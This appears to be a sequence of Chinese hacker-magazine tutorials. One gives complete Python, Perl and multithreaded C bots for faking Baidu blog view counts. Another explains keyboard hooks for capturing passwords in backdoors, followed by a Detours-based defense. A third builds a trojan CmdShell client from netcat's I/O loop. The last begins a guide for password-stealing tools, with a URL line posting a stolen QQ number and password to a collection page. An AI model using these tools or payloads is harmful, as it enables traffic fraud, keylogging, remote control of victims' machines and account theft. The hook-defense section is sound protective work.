经过我的测试，此方法对系统的影响并没有想象中的明显。我在自己的机器上做了大约 100 次左右的测试，没有任何一次感觉到 Explorer 有明显的异常。个人认为这种注入方式还是不错的。

> QueueUserAPC 函数包含在 `<winnbase.h>` 这个头文件中，我们使用该 API 还必须定义一个宏：`#define _WIN32_WINNT 0x0500`，而且该宏的定义必须在 `#include <winbase.h>` 之前。

##### 小结

到此为止两种线程注入的技术就介绍完了，大家觉得哪种更好一些呢？我个人更喜欢第一种，总感觉第二种有种随机性（虽然在测试过程中每次远程代码都能马上执行，也许只是心理作用）。我已经把代码一起打包了，各位读者朋友有什么不明白的地方可以研究代码，毕竟“源代码面前没有任何秘密”。本机开发环境是 Microsoft Visual C++ .NET 2003、Microsoft .NET Framework 1.1，操作系统 Windows XP SP2。

Socket：现在不少朋友都有了自己的 Blog，可是苦于没人宣传，使得访问量极为惨淡。如何让自己的空间排名更快地提升上去，成了很多人关心的一个问题。本文将会教你用编程的方法来完成这个任务。

适合读者：网络爱好者，编程爱好者

前置知识：无

#### 狂刷百度空间访问量

文／图 hijack9


最近百度推出了自己的 Blog——“百度空间”，官方的介绍就是：“百度空间是属于您自己的网上天地，您可以在此方便快捷地发布信息并获取反馈，和志同道合的朋友们分享交流。”看来百度的业务拓展得越来越大了。作为中文搜索界的龙头老大，它推出的东西可不容小觑。

注册一个试试看！注册的过程很快，随后我还写了一个日志上去。发现百度的 Blog 打开速度相当快，如图 1 所示。


图1

感觉很舒服的结构！不过很奇怪的是从访问量来看，已经有 4 个人访问了，但是我刚刚注册啊，而且只发了一篇日记。之后在百度贴吧里面发现了这样一篇文章，如图 2 所示。


图2

点击进去看看，果然是 2 万的点击率。哈哈哈，2 万点击率就了不起了？什么时候我也把自己 Blog 的访问量搞过万！回到自己的空间，随便看看里面的选项和设置，猛然发现怎么访问量变成 10 啦！难道在这几分钟内我的空间就被别人看到了？

回到自己空间的主页，F5 刷新一下，发现访问量变成了 11 啦！后来狂按 F5 刷新，访问量在不断上升。原来如此！看来要让自己的空间访问量在很短的时间内过万简直太容易了。

打开任意文本编辑器，输入如下 Python 代码：

```python
import urllib
Times=10
url="http://hi.baidu.com/hijack9"
print "Start to fetch",url
for i in range(Times):
    sock=urllib.urlopen(url)
sock.close()
print "Done!"
```

urllib 是 Python 进行客户端 HTTP 编程的一个包，里面提供了很多简易的方法进行 Web 客户端编程，而 urllib.urlopen(url) 则是打开一个网页的方法，返回一个套接字对象，并且可以从这个对象里面获取这个网页的内容。

执行这个脚本，当然这需要你安装了 Python 的解释器，可以从 www.python.org 上面下载到最新的 Python 版本。执行结果如图 3 所示。


图3

重新返回浏览器刷新一下，访问量果然加了 10！那如果把 Times 改为 1000 呢？说到做到，将“Times=10”改为“Times=1000”。执行速度很慢，这是必然的，因为 Python 是解释语言，而且这里需要循环执行 1000 次连接。

上述代码是用 Python 写的，下面提供 Perl 的代码，非常简单，同样是几句话搞定：

```perl
use LWP;
my $url="http://hi.baidu.com/hijack9/blog/item/dc2ec7ce75d9fb0392457e92.html";
print "Start to get: $url";
my $agent=LWP::UserAgent->new;
my $Times=1000;
for(my $i=0;$i<$Times;$i++){
    my $request=HTTP::Request->new(GET=>$url);
    my $response=$agent->request($request);
}
print "Done!";
```

现在回头看着自己的 Blog，发现计数器已经变成 1310 了，如图 4 所示。


图4

```cpp
Accept: image/gif, image/x-bitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, application/x-shockwave-flash, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; Maxthon; Alexa Toolbar)
Host: hi.baidu.com
Connection: Keep-Alive
strcpy(sendBuffer, str1);
strcpy(sendBuffer + strlen(str1), str2);
send(sock, sendBuffer, strlen(sendBuffer), 0);
```

前面两个脚本虽然都可以实现提高访问量的功能，但是速度太慢，而且只是单线程。下面我用 C 程序使用 SOCKET API 来实现同样功能，并且可以多线程运行，速度快了很多。

该程序的使用方法如下：

```text
Usage: baidu.exe [-n count] [-t threadnumber] URL
-n count         要增加的百度空间的访问计数，默认为10
-t threadnumber  所要开的线程数（最大为50），默认为1
URL              所要访问的百度空间的 Blog 地址（具体到某个 html 文件）
例如：
输入 baidu.exe -n 1000 -t 20 http://hi.baidu.com/hijack9
表示要提高1000个访问量，开辟20个线程。
```

再看具体的代码，程序里面的函数接口如下：

```cpp
bool initSocket(void);
SOCKET CreateSocketClient(char *addrConnect, int port);
bool getURLPath(char *theURL, char *path[]);
void SendHTTP(SOCKET sock);
DWORD WINAPI ThreadBaidu(PVOID pParam);
bool getopt(int argc, char** argv);
void Usage();
```

initSocket 函数进行套接字初始化；CreateSocketClient 创建本地 Socket 客户端并连接到远程服务器；getURLPath 根据用户输入 URL 提取路径；SendHTTP 发送 HTTP 数据包；ThreadBaidu 为线程函数；getopt 解析参数；Usage 显示程序用法。

函数很简单，对于已经连接上的套接字，构造合适的 HTTP 数据包发送过去即可；这个数据包通过 WSockExpert 对浏览器监听抓包得到。

```http
GET /hijack9/blog/item/dc820df4d337ab6edcc4741f.html HTTP/1.1
Accept: image/gif, image/x-bitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, application/x-shockwave-flash, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; Maxthon; Alexa Toolbar)
Host: hi.baidu.com
Connection: Keep-Alive
Cookie: BAIDUID=...
```

我们只要依葫芦画瓢，将 GET 后面的文件路径改成自己的路径即可。注意每个数据包后要有两个 `\r\n`。

```cpp
ThreadBaidu:
DWORD WINAPI ThreadBaidu(LPVOID pParam)
{
    int times = *(int*)pParam;
    int i = 0;
    do {
        SOCKET sock = CreateSocketClient("202.108.23.23", 80);
        if (sock == -1) ExitThread(0);
        SendHTTP(sock);
        closesocket(sock);
        i++;
    } while (i < times);
    printf("A Thread Stopped\n");
    return 0;
}
```

该函数为线程函数，传入参数为每个线程要增加的访问量，每个线程执行指定循环去连接服务器。

```cpp
SendHTTP:
void SendHTTP(SOCKET sock)
{
    char sendBuffer[1024*5];
    char str1[255];
    strcpy(str1, "GET ");
    strcat(str1, GlobalPath);
    strcat(str1, "\r\n\r\n");
    ...
}
```

```cpp
main 函数:
int main(int argc, char** argv)
{
    bool t = getopt(argc, argv);
    // 调用 getopt 函数获取相关输入参数：线程数、访问量、url 等
    ...
}
```

```cpp
if (tt) {
    Usage();
    exit(0);
}
bool bRet = getURLPath(Global_URL, Global_Path);
// 对于用户输入的URL进行解析，获取文件路径
if (!bRet) {
    Usage();
    exit(0);
}
int times = Global_Times; // 要提高的访问量数目
initSocket();             // 初始化套接字
int countThread = Global_ThreadTimes;
// 线程数目，不能超过50个线程
if (countThread > 50) {
    countThread = 50;
    printf("Thread Number is switched to 50\n");
}
int aver_times = times / countThread;
// 平均到每个线程所需要提供的访问量数目
if (times < 1 || countThread < 1 || aver_times == 0) {
    Usage();
    exit(0);
}
int t_times;
HANDLE* pAllHandles;
pAllHandles = new HANDLE[countThread];
// event句柄数组，用于等待所有的线程结束
printf("Beginning...\n");
for (int i = 1; i <= countThread; i++) {
    if (countThread == 1)
        t_times = times;
    else if (i == countThread)
        t_times = times - (aver_times * (i - 1));
    else
        t_times = aver_times;

    HANDLE h = CreateThread(NULL, 0, &ThreadBaidu, (LPVOID*)&t_times, 0, NULL);
    pAllHandles[i - 1] = h;
}
WaitForMultipleObjects(countThread, pAllHandles, true, INFINITE);
// 等待所有的线程执行完毕
```

```cpp
printf("All Done!\n");
delete pAllHandles;
return 0;
```

Main主函数的执行过程在注释里面都有说明，要注意的是在进行多线程的时候要调用一些等待函数，比如 `WaitForSingleObject` 或者 `WaitForMultipleObjects` 等，不然你的主线程很快执行完毕了，可你的分支线程还在执行中却被主线程强制终止，这样就不好了。

全部代码在 VC6.0 + Windows XP 下编译执行通过。更具体的可以查看附件里的源代码，里面添加了不少注释。另外还有一个可执行程序，直接使用即可。

与之前的两个脚本相比，C 写的程序快了很多，增加 1000 个访问量，若开辟 20 个线程，不到半分钟就可以搞定！目前我的 Blog 已经过万的访问量了！执行结果如图5所示。


图5

这样，提高百度空间的访问量作弊方法就完成了！不过为了博客的访问量提高而使用这样的手段实在无趣！只要博客做得好，写得多，更新快，访问量自然就会高，根本不用作弊。

适合读者：程序设计者，木马编写爱好者  
前置知识：C++基础，Windows下编程经验，简单汇编基础

## Message Hook攻与防

文／图 BlackBeast

##### 前言

在当今黑客程序中，HOOK技术无疑占据了很大的比重，很多远程监控，例如键盘监控技术等，都离不开HOOK技术。本文就将详细介绍HOOK技术应用细节，并与大家一起研究其防御方法。

##### 倚天剑

在后门程序的编写中，密码截获是很常见的功能，今天我们就以此为例，介绍一下 Message Hook 技术。

### 1. 原理

想当年在 DOS 时代，如果我们想要更改某个系统功能是很简单的：更改一下中断向量就可以了，但是在 Windows 时代，这一切就没有那么简单了。于是 Windows 给我们提供了 Hook，通过它，我们可以对一些系统功能进行简单的更改。

众所周知，Windows 的很多操作是基于消息的，不同种类的消息可以被归纳为几类事件，通过挂钩，我们就可以捕捉当前进程或其他进程发生的事件……

Windows 一个处理或过滤事件的回调函数，该函数也叫做“钩子函数”，当每次发生我们感兴趣的事件时，Windows 都将调用该函数。一共有两种类型的钩子：局部钩子和远程钩子。

局部钩子仅钩挂当前进程的事件，而远程的钩子还可以钩挂其他进程发生的事件。远程的钩子又有两种。

- 1）基于线程的：这种钩子的作用是监控系统中特定线程中的特定事件。
- 2）系统范围的：捕捉系统中所有进程将发生的特定事件消息，也就是我们说的全局钩子。

当创建一个钩子时，Windows 会先在内存中创建一个数据结构，该数据结构包含了钩子的相关信息，然后把该结构体加到已经存在的钩子链表中去。新的钩子将加到老的前面。当一个事件发生时，如果安装的是一个局部钩子，该进程中的钩子函数将被调用；如果是一个远程钩子，系统就必须把钩子函数插入到其他进程的地址空间，要求钩子函数必须在一个动态链接库中。所以如果你想要使用系统钩子，就必须把该钩子函数放到动态链接库中去。这是因为，系统钩子是针对整个系统中的全部进程进行挂载，同 Windows 的进程虚拟内存保护机制使得不同进程之间内存相互访问十分困难，所以在对其他进程进行监控的时候必须把监控代码加载到该进程的地址空间中。

系统执行是这样的顺序：当发生特定事件的时候，系统首先检查该事件上是否存在钩子函数；如果有，检测该钩子函数是否为全局钩子。如果是，进一步检测该钩子函数对应的 DLL 是否已经加载到对应的进程当中；若未加载则加载，确认加载后调用钩子函数，重复该过程直到全部挂钩在该事件上的钩子函数调用完毕。

此外，Windows 还提供一种低级钩子，包括低级键盘钩子和低级鼠标钩子，也属于系统钩子范畴。这两种钩子对系统全部进程进行监控，但并不需要将自己的代码加载到系统其他进程，而是基于消息机制进行监控的。系统在发生该钩子监控的事件后，会给该钩子设置的进程发消息，然后由设置钩子的进程进行相关处理。这里有两点要求：

- 1. 进程的消息处理函数必须在一定的时间内返回，以保证系统运行的流畅；
- 2. 设置低级钩子的函数必须包含一个消息队列。

接下来先介绍一些常用的 Hook 类型。

- 1) **WH_CALLWNDPROC** 和 **WH_CALLWNDPROCRET Hooks**：监视发送到窗口过程的消息。系统在消息发送到接收窗口过程之前调用 WH_CALLWNDPROC Hook 钩子函数，并且在窗口过程处理完消息之后调用 WH_CALLWNDPROCRET Hook 钩子函数。
- 2) **WH_CBT Hook**：在以下事件之前，系统都会调用 WH_CBT Hook 钩子函数。这些事件包括：
  - A. 激活、建立、销毁、最小化、最大化、移动、改变尺寸等窗口事件；
  - B. 完成系统指令；
  - C. 来自系统消息队列中的移动鼠标、键盘事件；
  - D. 设置输入焦点事件；
  - E. 同步系统消息队列事件。  
    Hook 钩子函数的返回值确定系统是否允许或者防止这些操作中的一个。
- 3) **WH_DEBUG Hook**：在系统调用与其他 Hook 关联的 Hook 钩子函数之前，系统会调用 WH_DEBUG Hook 钩子函数。你可以使用这个 Hook 来决定是否允许系统调用与其他 Hook 关联的 Hook 钩子函数。
- 4) **WH_FOREGROUNDIDLE Hook**：当应用程序的前台线程处于空闲状态时，可以使用 WH_FOREGROUNDIDLE Hook 执行低优先级的任务。当应用程序的前台线程大概要变成空闲状态时，系统就会调用 WH_FOREGROUNDIDLE Hook 钩子函数。
- 5) **WH_GETMESSAGE Hook**：应用程序使用 WH_GETMESSAGE Hook 来监视从 GetMessage 或 PeekMessage 函数返回的消息。你可以使用 WH_GETMESSAGE Hook 去监视鼠标和键盘输入，以及其他发送到消息队列中的消息。
- 6) **WH_JOURNALPLAYBACK Hook**：使应用程序可以插入消息到系统消息队列。可以使用这个 Hook 回放通过使用 WH_JOURNALRECORD Hook 记录下来的连续的鼠标和键盘事件。
- 7) **WH_JOURNALRECORD Hook**：用来监视和记录输入事件。典型的，可以使用这个 Hook 记录连续的鼠标和键盘事件，然后通过使用 WH_JOURNALPLAYBACK Hook 来回放。WH_JOURNALRECORD Hook 是全局 Hook，它不能像线程特定 Hook 一样使用。
- 8) **WH_KEYBOARD Hook**：在应用程序中，WH_KEYBOARD Hook 用来监视 WM_KEYDOWN 和 WM_KEYUP 消息，这些消息通过 GetMessage 或 PeekMessage 函数返回。可以使用这个 Hook 来监视输入到进程消息队列中的键盘消息。
- 9) **WH_KEYBOARD_LL Hook**：监视输入到线程消息队列中的键盘消息。
- 10) **WH_MOUSE Hook**：监视从 GetMessage 或者 PeekMessage 函数返回的鼠标消息。使用这个 Hook 监视输入到消息队列中的鼠标消息。
- 11) **WH_MOUSE_LL Hook**：监视输入到线程消息队列中的鼠标消息。
- 12) **WH_MSGFILTER 和 WH_SYSMSGFILTER Hooks**：可以监视菜单、滚动条、消息框、对话框消息，并且发现用户使用 ALT+TAB 或 ALT+ESC 组合键切换窗口。WH_MSGFILTER Hook 只能监视传递到菜单、滚动条、消息框的消息，以及传递到通过安装了 Hook 钩子函数的应用程序建立的对话框的消息。WH_SYSMSGFILTER Hook 监视所有应用程序消息。WH_MSGFILTER 和 WH_SYSMSGFILTER Hooks 使我们可以在模式循环期间过滤消息，这等价于在主消息循环中过滤消息。通过调用 CallMsgFilter function 可以直接调用 WH_MSGFILTER Hook，通过使用这个函数，应用程序能够在模式循环期间使用相同的代码去过滤消息，如同在主消息循环里一样。
- 13) **WH_SHELL Hook**：外壳应用程序可以使用（后续内容未完整显示）。

WH_SHELL Hook 去接收重要的通知。当外壳应用程序是激活的并且当顶层窗口建立或者销毁时，系统调用 WH_SHELL Hook 钩子函数。WH_SHELL 共有 5 种情况：

- F. 只要有个 top-level、unowned 窗口被产生、起作用，或是被摧毁；
- G. 当 Taskbar 需要重画某个按钮；
- H. 当系统需要显示关于 Taskbar 的一个程序的最小化形式；
- I. 当目前的键盘布局状态改变；
- J. 当使用者按 Ctrl+Esc 去执行 Task Manager（或同级别的程序）。

讲了半天原理，下面给大家举个例子吧。

## 2. 实现

在随文附带的程序中，有一个我编写的 Demo，界面如图1所示。


程序的功能也十分简单，就是实现了对系统键盘钩子和低级键盘钩子的挂载，主程序在初始化的过程中获得包含钩子函数的 DLL 文件的句柄。

```cpp
this->hKeyHookDll = LoadLibrary((LPCTSTR)"..//..//Win32Dll//Release//Win32Dll.dll");
if (this->hKeyHookDll == NULL)
{
    this->MessageBox("Load Library Error!");
    return FALSE;
}
```

在按钮的消息处理函数中获得 DLL 中相应的函数指针，并调用之：

```cpp
void CHookExampleDlg::OnBnClickedSetKeyHook()
{
    typedef BOOL (CALLBACK *inshook)();
    inshook InstallKeyHook = (inshook)GetProcAddress(this->hKeyHookDll, "InstallHook");
    if (InstallKeyHook == NULL)
    {
        this->MessageBox("GetProcAddress ERROR");
    }
    else
    {
        if (!InstallKeyHook())
        {
            this->MessageBox("InstallKeyHook ERROR");
        }
    }
}
```

几个处理函数基本相同，不再浪费版面。下面我们继续分析 DLL 文件的内容。首先，为了让大家明白 DLL 在不同进程加载的过程，我在 DLL 的 DllMain 函数中加入了如下代码：

```cpp
case DLL_PROCESS_ATTACH:
{
    TCHAR szModule[256];
    GetModuleFileName(NULL, szModule, 256);
    MessageBox(NULL, szModule, "DLL_PROCESS_ATTACH", MB_OK);
    break;
}
```

这样我们就可以通过 MessageBox 查看加载该 DLL 的进程对应的 EXE 文件了。

下面介绍安装钩子的函数，其实安装钩子关键就是对 API `SetWindowsHookEx` 的调用。该函数有四个参数：第一个参数是钩子的类型（本文中分别是 WH_KEYBOARD 和 WH_KEYBOARD_LL）；第二个参数是回调函数指针；第三个参数是包含钩子函数的模块句柄（全局钩子中使用，在 DLL 加载时由 DllMain 参数获得）；最后一个参数是线程句柄，针对全系统钩子该参数传递为 NULL。

最后介绍回调函数，也就是上面说的第二个参数所传递的函数指针对应的函数。这个函数必须有固定格式，返回值为 LRESULT，参数为 int、WPARAM、LPARAM 三个。这三个参数是对该钩子函数所截获事件的描述。值得一提的是，如果需要该事件继续被处理，那么在此函数中必须调用 `CallNextHookEx`。

具体工程文件及全部代码可以参阅光盘。我们运行该程序，然后按“设置键盘钩子”，再在其他进程中进行按键操作（如 WORD），可以看到如图2所示对话框弹出。


对话框证明该钩子函数所在的 DLL 已经加载到目标进程了。然后会弹出如下对话框，此对话框在钩子回调函数中开启，证明在该进程中的按键事件已经被捕获了，如图3所示（标题栏内容是回调函数传递来的参数）。


而如果我选择“设置低级键盘钩子”，则直接弹出如图4所示对话框。这里并未弹出 DLL_ATTACH 对话框，这说明该钩子函数处理程序所在的 DLL 在设置低级键盘钩子过程中并未加载到所监控进程的地址空间。


##### 天龙盾

## 1. 原理

其实预防钩子函数的方法很简单，大家还记得前面介绍的 API `CallNextHookEx` 么？只有在钩子处理函数中调用这个 API，该事件才会在系统中被继续传递，注册在该事件上的其他钩子函数也才有机会被调用。所以如果需要进行一些保密的按键操作，我们可以注册一个键盘钩子，然后在钩子的回调函数中处理该事件，处理后并不调用 `CallNextHookEx`，这样其他进程以前注册的钩子函数就都没有效果了。

但是这样做的缺点是显而易见的，那就是可靠性太低了。如果黑客程序在你的应用程序之后注册全局钩子，一样能够监控到你的操作，所以我们必须使用其他的方法，防御全局钩子的入侵。

经过本人查阅资料，找到了一种可以对付全局钩子的方法，但是只能对付普通远程钩子（无论是系统钩子还是线程钩子），不能对付低级钩子。钩子由 Win32 子系统提供，其核心部分通过 `NtUserSetWindowsHookEx` 为用户提供了设置消息钩子的系统服务，用户通过它注册全局钩子……进入用户态的 `KiUserCallbackDispatcher` 后，根据传递数据获取所需调用的函数、参数等，随后调用；针对上面的例子就是装载 `Hook.dll`，需要调用的是 `LoadLibraryEx`，随后进入 `LdrLoadDll`，装载完毕后返回。

> 这里的 `KiUserCallbackDispatcher` 是由 `ntdll.dll` 提供的，所以在钩子函数中调用 `LoadLibrary`，其返回地址必然也在该模块中。我们可以通过比较 `LoadLibrary` 的返回地址判断 `LoadDll` 操作是否为加载全局钩子所用，从而阻止包含全局钩子回调函数代码的 DLL 加载到目标进程。

## 2. 实现

本文需要使用微软库 Detour 完成 API Hook 的操作，具体使用方法大家自己去查吧，不浪费版面资源了。这里介绍一下自己编写的 `MyLoadLibraryExW` 函数。

```cpp
DetourGetModuleSize(ModuleAddress);
if ((ULONG)ModuleAddress < Addr && ((ULONG)ModuleAddress + DetourGetModuleSize(ModuleAddress)) > Addr) {
    MessageBox(NULL, Tmp, "Hook Dll Load!! My_LoadLibraryExW", MB_OK);
    return 0;
} else {
    HMODULE res = pRealLoadLibrary(lpwLibFileName, hFile, dwFlags);
    MessageBox(NULL, Tmp, "Ordinary Dll Load!! My_LoadLibraryExW", MB_OK);
    return res;
}
```

首先，`ModuleAddress` 是通过 API `GetModuleHandle` 获得的，存储的是 `ntdll.dll` 的模块地址；然后通过汇编语句获取该函数的返回地址。下面的分支判断语句用于判断返回地址是否在模块 `ntdll.dll` 的地址空间内：若在范围内则返回 0；否则证明该调用为合法调用，调用真实的 `LoadLibraryExW` 函数。代码中两个 `MessageBox` 的输出为调试信息。

```cpp
if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
    ModuleAddress = GetModuleHandle("ntdll.dll");
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourAttach(&(PVOID&)pRealLoadLibrary, My_LoadLibraryExW);
    error = DetourTransactionCommit();
    if (error == NO_ERROR) {
        MessageBox(NULL, "OK", "DLL_PROCESS_ATTACH", MB_OK);
    }
}
```

```cpp
HMODULE __stdcall My_LoadLibraryExW(LPCWSTR lpwLibFileName, HANDLE hFile, DWORD dwFlags)
{
    ULONG Addr, ModuleAddr = (ULONG)ModuleAddress;
    __asm mov eax, [ebp+4]
    __asm mov Addr, eax
    CString Tmp;
    Tmp.Format("Return Value:%x, ModuleAddress:%x, ModuleAddress Size:%x", Addr, ModuleAddress, ...);
}
```

```c
{
    MessageBox(NULL, "Error", "DLL_PROCESS_ATTACH", MB_OK);
}
```

上述代码包含在 Detour.dll 中。我写了一个简单的程序测试，该程序界面如图5所示。

底下4个按钮是用来分别加载4个不同的 DLL 作为测试，编辑框是为了测试加载键盘钩子的情况。此外，该程序在对话框初始化的时候显示加载了 Detour.dll。

首先我们随便按下面的4个按钮中的一个，会弹出如图6所示对话框。

而当我们使用“倚天剑”部分介绍的程序注册一个键盘钩子之后，在该程序的编辑框中随便敲击两下键盘，就会看到如图7所示对话框出现。

由此可见，我们已经能够成功区别合法和非法的 LoadLibrary 调用了。使用 ICESWORD 查看进程加载的模块地址，结合上面两图，可知普通 LoadLibrary 的调用在 Kernel32.dll 中完成，而 HOOK 所需的 LoadLibrary 操作在 ntdll.dll 中完成，如图8所示。

##### 小结

写到这里就结束了。本文详细介绍了钩子技术的使用方法和防御方法，希望对大家有帮助；美中不足就是针对低级钩子等不需要加载 DLL 的钩子尚无防御办法。

MSDN 中介绍，微软为了防止处理钩子消息的线程过于繁忙、响应缓慢，在注册表 `HKEY_CURRENT_USER\Control Panel\Desktop\LowLevelHooksTimeout` 中保存一个值，当处理钩子消息的线程在该值规定时间内未返回则忽略该钩子。我曾经尝试把该值设置为0，但是低级钩子依然正常工作。大家如有什么好办法希望赐教。

适合读者：网络爱好者、编程爱好者

前置知识：无

#### 编程打桩 CmdShell 客户端

文/图 雪山 [S.I.S]

前几天下了个可端口复用的 WinShell 源码，准备自己定个木马协议来实现不影响原服务的端口复用。我的编程基础不是很强，但是没想到光定个木马协议就用了一个把星期……不过还是小有收获，这就拿来和大家分享。

在应用层上自定义木马协议，最简单的方法就是自定义一个结构体，包括一个头部和一个命令字。服务端很好办，毕竟有源码；加几个字符串比较语句就可以了。那客户端呢？只有自己写了。

我想大部分人开始可能会和我的想法一样，一个 `connect()` 加一个 `send()` 和 `recv()` 的循环就完事。结果表明这是不行的：当 `send()` 出去之后，由于种种原因，`recv()` 到的数据很可能只是服务端发送的一部分；随后再次 `send()/recv()` 可能接收到上次发送的数据，反复几次会导致收发不同步，最后部分数据丢失。

怎么办呢？我想到用 NC 连接 CmdShell 时好像不会出现这种情况，于是去看 NC 的源码。这里提醒学习编程的朋友：看到这种代码先别急，静下心来慢慢看。最终我找到 NC 里读写（收发）数据的函数（如 `readandwrite()`），仔细看了两天，做了多次实验，终于把基本思路搞清楚了。

NC 用单线程实现了数据的异步通信的单工工作模式，代码简单效率高。基本思路如下图1所示。

上图大概画出了 NC 读写数据的流程，不过很粗，我就结合 NC 的部分代码把这个图大概解释一下吧：

图1

```c
unsigned int fd;
register int rr;
register char *zp;   /* stdin buf ptr */
register char *np;   /* net-in buf ptr */
unsigned int rzleft;
unsigned int rnleft;
struct timeval timer3;
```

这里 fd 是传进来的 Socket 参数，rr、zp、np 是寄存器变量。zp 是标准输入（发送）缓冲区指针，np 是标准输出（接收）缓冲区指针。rzleft 和 rnleft 用于记录发送和接收缓冲区剩余字节数，timer3 用于设置接收数据超时。

```c
FD_SET(fd, ding1);    /* global: the net is open */
rzleft = rnleft = 0;
typedef struct fd_set {
    u_int fd_count;
    SOCKET fd_array[FD_SETSIZE];
} fd_set;
```

这里 ding1 和 ding2 是两个 `fd_set` 结构体全局变量。`fd_set` 用于 Socket 集合管理，`FD_SET` 宏将一个 Socket 加入集合；后面会配合 `FD_ISSET` 等宏进行可读可写判断。

```c
while (FD_ISSET(fd, ding1)) {
    *ding2 = *ding1;
    rr = select(16, ding2, 0, 0, &timer3);
    if (rr < 0) { /* select出错 */ }
    if (rr == 0) { /* 超时 */ }
    if (FD_ISSET(fd, ding2)) {
        rr = recv(fd, bigbuf_net, BIGSIZ, 0);
        if (rr <= 0) {
            FD_CLR(fd, ding1);
            close(fd);
            rnleft = 0;
        }
    }
    /* ... */
}
```

```c
rr = recv(fd, bigbuf_net, BIGSIZ, 0);
if (rr <= 0) {
    FD_CLR(fd, ding1);
    close(fd);
    rnleft = 0;
}

rnleft = rr;
np = bigbuf_net;

if (kbhit()) {
    gets(bigbuf_in);
    strcat(bigbuf_in, "\n");
    rr = strlen(bigbuf_in);
    rzleft = rr;
    zp = bigbuf_in;
}

if (rnleft) {
    rr = write(1, np, rnleft);
    if (rr > 0) {
        np += rr;
        rnleft -= rr;
    }
}

if (rzleft) {
    rr = rzleft;
    rr = send(fd, zp, rr, 0);
    if (rr > 0) {
        zp += rr;
        rzleft -= rr;
    }
}

if ((rzleft) || (rnleft)) goto shovel;
closeSocket(fd);
return 0;
```

这是一个读写数据的循环，省去了大部分代码，只保留了主要功能：判断 fd 是否在集合中、使用 `select` 处理超时、`recv` 接收网络数据、`write` 输出、`send` 发送输入数据，并通过 rzleft/rnleft 处理未完成的收发。

`recv()` 返回值很重要：正常时返回接收字节数；异常或关闭时返回 `<=0` 并触发清理退出逻辑。字节数赋给 `rnleft`。而当没有超时，接收又有错误，这就表明对方已经关闭了连接。

此时用 `FD_CLR(fd, ding1); rzleft = 0;` 来结束循环。`FD_CLR` 是一个用来清除 `fd_set` 集合里面特定 Socket 的宏。这样 while 检测到 `fd` 已经不在 `ding1` 里面时，就不再循环了。

下面开始判断发送缓冲区是否有数据，有的话跳到 `shovel`，防止读取输入的时候把以前发送缓冲区里的数据覆盖。

这里用到了 `kbhit()`，这是判断是否有键盘输入的一个函数，如果没有的话，就直接跳到 `shovel` 了；有的话就将标准输入读到发送缓冲区。

`rzleft = rr, zp = bigbuf_in`，将读进来的字节数赋给 `rzleft`，将指针赋给 `zp`。这就保证只在有输入的时候才读取，没有输入的时候就不断循环地进行其他操作。如果接收数据，就不会有只接收一部分数据的现象了。

然后就轮到 `shovel` 了，这里的功能是输出接收缓冲区的数据和发送缓冲区里的数据，而且保证把接收和发送缓冲区里的数据处理完才继续循环。

输出和发送都是先判断各缓冲区里还有没有数据再进行处理，有数据的话，该输出的输出，该发送的发送，再将原有的数据数量减去处理了的数据量，因为有时一下不能处理完所有的数据，就有剩下未处理的。

这时怎么能保证处理完所有的数据呢？看这句：`if ((rzleft) || (rnleft)) { goto shovel; }`，只要任意一个缓冲区还有数据都会再次跳到 `shovel` 进行缓冲区数据的处理，直到 `rzleft` 和 `rnleft` 都等于零，也就是接收和发送缓冲区都没有数据遗留。

最后跳出循环之后用 `closeSocket(fd); return (0);` 来关闭套接字和返回。

这里总结一下 NC 的几个精华点：

- 采用了接收数据的超时设置，让 `recv()` 不会占用太多时间；
- 用了 `select()` 可读而 `recv()` 出错表示对方关闭连接的方法，因为它很容易进入无限循环，还好用这个方法，不然还真不好判断对方什么时候关闭；
- 读取键盘输入时先判断有没有键盘输入，我觉得这是最关键的一步了，不然很难实现不停地循环接收数据而不会丢失数据；这里接收数据那部分和发送数据那部分所被触发的次数是完全不同的，因为接收数据是每次循环都会有的，而发送数据是只在有输入的情况下才会被触发，这也就实现了它的异步通信；
- 保证把缓冲区里所有的数据都处理完之后再进行其他的操作。

```c
while (FD_ISSET(sockfd,&ding))
{
    // 赋初始值
    FdRead = ding;
    int Er = select(sockfd+1, &FdRead, 0, 0, &TimeOut);
    // 超时或错误
    if (Er == SOCKET_ERROR) {
        printf("select Socket err\n", Er);
        FD_CLR(sockfd,&FdRead);
        FD_CLR(sockfd,&ding);
    }

    if (FD_ISSET(sockfd,&FdRead)) {
        numbytes = recv(sockfd, buf, sizeof(buf), 0);
        if (numbytes == SOCKET_ERROR || numbytes == 0) {
            FD_CLR(sockfd,&ding);
            // 可读但已关闭连接
        } else {
            recvn = numbytes;
            buf[numbytes] = '\0';
            recvbufp = buf;
        }
    }

    if (sendn) goto print;
    // 检查是否有数据还未发送
    if (kbhit()) {
        gets(bufin);
        strcat(bufin, "\n");
        readn = strlen(bufin);
        if (readn > 0) {
            sendn = readn;
            bufin[readn] = '\0';
            sendbufp = bufin;
        }
    }

print:
    if (recvn) {
        int rr = write(1, recvbufp, recvn);
        recvbufp += rr;
        recvn -= rr;
    }

    if (sendn) {
        readn = send(sockfd, sendbufp, sendn, 0);
        sendbufp += readn;
        sendn -= readn;
    }

    if (recvn || sendn) goto print;
    Sleep(10);
}
```

```c
while (FD_ISSET(sockfd,&ding))
{
    // 赋初始值
    FdRead = ding;
    int Er = select(sockfd+1, &FdRead, 0, 0, &TimeOut);
}
```

大家可以看一下，省去了 NC 里很多细致的功能。我觉得这对网络编程可能是一个很好的指导或启发。

好了，相信看完之后写一个自己的 CmdShell 客户端应该没有问题了。别想了，赶紧动手吧！

适合读者：网络爱好者、编程爱好者  
前置知识：无

#### POST 提交实现 ASP 网站收信

文/图 楚茗

现在很多盗号工具都带有 ASP 网站收信功能，今天笔者就来介绍如何通过 POST 提交数据来实现 ASP 网站收信。

当然如果只是为了实现 ASP 网站收信，我想用下面的几句代码就可以实现这个功能了。

```c
char *iepath="...\\iexplore.exe";
char *postpath="http://127.0.0.1/pass.asp?QQNumber=123456&PassWord=asdfgh";
